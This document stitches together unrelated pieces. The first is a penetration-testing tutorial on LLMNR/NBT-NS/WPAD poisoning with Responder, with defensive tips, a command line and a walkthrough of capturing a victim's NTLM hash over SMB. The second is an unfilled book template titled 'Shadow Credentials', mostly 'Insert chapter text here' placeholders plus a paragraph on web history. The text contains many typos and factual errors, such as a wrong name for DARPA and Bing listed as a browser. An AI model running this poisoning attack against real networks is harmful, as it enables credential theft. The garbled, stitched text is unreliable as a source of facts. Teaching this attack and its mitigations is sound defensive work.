If a web browser is set to automatically detect proxy settings, it will use the WPAD protocol to discover the URL of a proxy configuration file. To discover this URL, WPAD will iterate through a series of potential URLs and hostnames - and with each false attempt, will expose itself to spoofing. Google Chrome and Firefox will not trigger this behavior, by default, but Internet Explorer and Bing will.

\textbf{Google Chrome}

When a single word string is typed into Chrome’s search bar, the application  needs a way to discern whether the string is indeed a legitimate URL or a search term. Chrome first treats the string as a search term and directs the user to its configured user engine, while simultaneously making sure the string is not a hostname by trying to resolve it. Furthermore, to prevent exposure to DNS hijacking attempts, Chrome will try to resolve several randomized hostnames upon startup to make sure they do not resolve - essentially guaranteeing some multicast NR action.

\textbf{Tips and Tricks}

In my experience, some tips that can better help you secure your network against Name Resolution (NR) attacks and protocol poisoning, as demonstrated with tools like Responder:

\textbf{1. Disable LLMNR and NBT-NS: }These legacy protocols are primary targets for NR poisoning attempts. By disabling them, you significantly reduce the attack surface making it harder for attackers to use this specific technique.

\textbf{2. Enable SMB Signing: }This prevents Man-in-the-Middle (MiTM) and relay attacks, protecting against unauthorized access to network resources.

\textbf{3. Use Host-based Firewalls: }Blocking multicast NR traffic at the host-level makes it harder for attackers to receive or inject spoofed responses.

\textbf{4. Monitor for unusual NR Traffic: }Keeping a continuous eye on network and host activities for suspicious NR-related traffic can help you quickly identify potential attacks before they have a chance to strike.

\textbf{5. Implement Strict DNS Configurations: }Ensuring proper DNS configurations prevents clients from falling back to using vulnerable multicast NR protocols, reducing exposure to spoofing attacks.

\textbf{Poisoning with Responder}

Responder is an open-source Python-based LLMNR/NBT-NS/mDNS poison acting into two stages: 

1. First, it will listen to multicast NR queries (LLMNR - UDP/5355, NBT-NS - UDP 137) and, under the right conditions, spoof a response - directing our victi to the machine on which it is running.

2. Once our mock vicctim will try and connect to our machine, Responder will then exploit the connection to steal credentails and other data.

In this specific scenario, we will use Responder to access credentials through SMB and WPAD authentication. We used a Kali Linux machine, which has this tool pre-installed and can be accessed under /usr/share/responder.

\textbf{Step 1: Setting Up}

This is our network setup:

\textit{Figure X. Demonstration network diagram, depicting the victim PC, attacker PC, and a file server named ‘fileshare.’}

Now, let’s see Responder’s arguments on our attacking machine (192.168.68.111):

\textit{\textbf{Figure X.}}\textit{ The Responder tool’s arguments (running on a Kali Linux virtual machine)}

We can see that WPAD capabilities are turned off by default, and to activate them we will add the flags -w and -F (to force the client to authenticate to us as part of the WPAD protocol). Coupled with the -I flag (to specify the interface to run on), and the -v flag (verbose mode), we will execute the following command:

kali@kali/user/share/responder\$ sudo python Responder.py -I etho0 -wF -v [sudo] password for kali:

\textit{Figure X. Responder’s enabled and disabled services and options, as displayed after app execution}

Now everyting is set up and Responder will now wait for any mutlicast NR queries to come in.

\textbf{Step 2: Attacking the Target}

\textbf{SMB Credential Access}

Remember our aformentioned mistype “\textit{||fileshare”}? This is how the same event looks on our attacking machine:

\textit{\textbf{Figure X. }}\textit{NR spoofing leading to SMB credentialed access, as seen on Responder’s log}

As seen in the introduction, several NBT-NS, LLMNR, and mDNS queries were broadcasted by our victim Windows 11 machine, indicating that the required hsot is supposed to be a file server. Responder will reply to file server queries via SMB and FTP by default. The victim ehten established a connection with our malicious SMB server and handed us its credentials.

Let’s visualize this process on Wireshark:

\textit{Figure X. NR spoofing leading to credentialed access, as seen on a Wireshark packet capture}

First our victim (192.168.62.101) sent multiple multicast NR queries using mDNS, NBT-NS (NBNS) and LLMNR. As seen in the second packet, Responder replied to the NBT-NS query claiming our machine (192.168.68.111) as \textit{filesahre:}

\textit{Figure X. Poisoned NBT-NS answer for fileshare (mistyped on purpose as ‘filesahre’)}

The victim then initiated an SMB connection and authenticated to our server, as seen in the last two packets. The username and password hash code were transferred and are now visible to us in plaintext form (“User: WINDEV2004EVAL\textbackslash{}User”). The full hash code is dispersed among several fields in both packets and can be gathered manually, but Responder automatically puts them together - outputting the complete hash code seen in the analyzed log.


For defenders, mitigating NTLM relaying should be a top priority. Disabling LLMNR and NBT-NS, enabling SMB signing across all systems, and monitoring for suspicious authentication patterns are effective defensive strategies to shut down this attack vector (and coupled with firewall rules and edge router ACLs) for good. The below figure illustrates the NTLM hash of an administrator credentialed information that was intercepted by the Responder tool.

 
SHADOW CREDENTIALS

Title

AUTHOR NAME

Copyright © 2012 Author Name

All rights reserved.

ISBN:

DEDICATION

Insert dedication text here. Insert dedication text here. Insert dedication text here. Insert dedication text here. Insert dedication text here. Insert dedication text here. Insert dedication text here. Insert dedication text here. Insert dedication text here. Insert dedication text here.

CONTENTS

\begin{table}
\centering

\begin{tabular}{l l l}
 & Acknowledgments & i \\
1 & Chapter Name & 1 \\
2 & Chapter Name & Pg \# \\
3 & Chapter Name & Pg \# \\
4 & Chapter Name & Pg \# \\
5 & Chapter Name & Pg \# \\
6 & Chapter Name & Pg \# \\
7 & Chapter Name & Pg \# \\
8 & Chapter Name & Pg \# \\
9 & Chapter Name & Pg \# \\
10 & Chapter Name & Pg \# \\

\end{tabular}

\end{table}

ACKNOWLEDGMENTS

Insert acknowledgments text here. Insert acknowledgments text here. Insert acknowledgments text here. Insert acknowledgments text here. Insert acknowledgments text here. Insert acknowledgments text here. Insert acknowledgments text here. Insert acknowledgments text here. Insert acknowledgments text here. Insert acknowledgments text here.

1 CHAPTER NAME

To begin with, this section provides an in-depth exploration of the Shadow Credentials attack - a sophisticated exploitation technique that targets weaknesses in Active Directory Certificate Services (AD CS) and certificate-based authentication. Shadow Credentials leverage the ability to introduce rogue or attacker-controlled public keys into Active Directory user objects, effectively granting adversaries persistent, credential-less access to target accounts.

Why should an aspiring ethical hacker or defender care about the roots of the web? Afterall, it \textit{is }where hacking was born, and to better understand the medium in which you’ll be working in - at any level or domain of IT and cybersecurity - the web is always involved in some way and somehow; therefore, it is helpful to have at least a cursory idea as to how it all came about. And contrary to popular belief, most traditional artists (whether they are painters, printmakers, or sculptors) benefit from a solid understanding of the particular form in which they are working.

This section of the chapter will start off with a brief exploration of how the web got started. From there, we will move onto how<>. Finally, we will finish off this section with a brief look at <>.

\textbf{Not So Humble Beginnings}

Originally developed as an initiative of the Defense Agency Research Projects Administration (DARPA) in partnership with several prestigious universities and research institutions, the Internet (the World Wide Web (WWW)), which at the time was called \textit{\textbf{ARPAnet}}, was a prototype communications system designed to withstand the inevitable electromagnetic pulse generated by a thermonuclear attack. It wasn’t long before the ARPAnet spawned a sister network for the research community, supported and funded by the National Science Foundation (NSF). Called the \textit{\textbf{NSFnet}}, the network soon found its way into most universities around the world.

For all of its technological wonder, however, NSFnet was little more than an obscure scientific endeavor. NSFnet, which ultimately became known as the \textit{\textbf{Internet}}, required adeptness to cryptic computer programs and obscure protocols. Even if one mastered the necessary skills to take advantage of the Internet, where to go and what to do was pretty puzzling, and it wasn’t useful for much other than just emailing, and for utilizing simple unencrypted file transfers.

At its height, NSFnet was a massive library of some of the most advanced information on the planet. The problem rested on the fact that it was extremely difficult to identify and locate a given source of information. It was akin to walking down each aisle of an enormous library in the dark and scanning each book to figure out what is available. Once you found something relevant to your needs, you had to “read” (that is, download) the entire book rather than browse just the parts that were of interest to you. Worse still, once found, a piece of information often referred to another valuable source without providing the means to locate it.

In 1989, tired of the perpetual hunt and peck of the Internet, a researcher named Tim Berners-Lee at the CERN atomic research center in Switzerland proposed software and protocols that would enable computers to browse the information contained on the NSFnet. This one event irrevocably changed the nature of how this global computer network was used.

andInsert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here.

Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. 

Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here.

Insert chapter one text here. Insert chapter one text here. Insert chapter one text here.

Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here.

Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. 

Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here.

Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. 

Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here.

Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. 

Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here.

Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here.

Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. 

Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here.

Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here.

Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here.

Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here. Insert chapter one text here.

2 CHAPTER NAME

Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. 

Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. 

Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. 

Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here.

Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. 

Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. 

Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. 

Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here. Insert chapter two text here.

3 CHAPTER NAME

Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here.

Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here.

Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here.

Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here.

Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here.

Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here.

Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here. Insert chapter three text here.

4 CHAPTER NAME

Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here.

Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here.

Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here.

Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here.

Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here.

Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here.

Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here.

Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here. Insert chapter four text here.

5 CHAPTER NAME

Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here.

Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here.

Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here.

Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here.

Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here.

Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here.

Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here.

Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here. Insert chapter five text here.

6 CHAPTER NAME

Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here.

Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here.

Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here.

Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here. Insert chapter six text here.

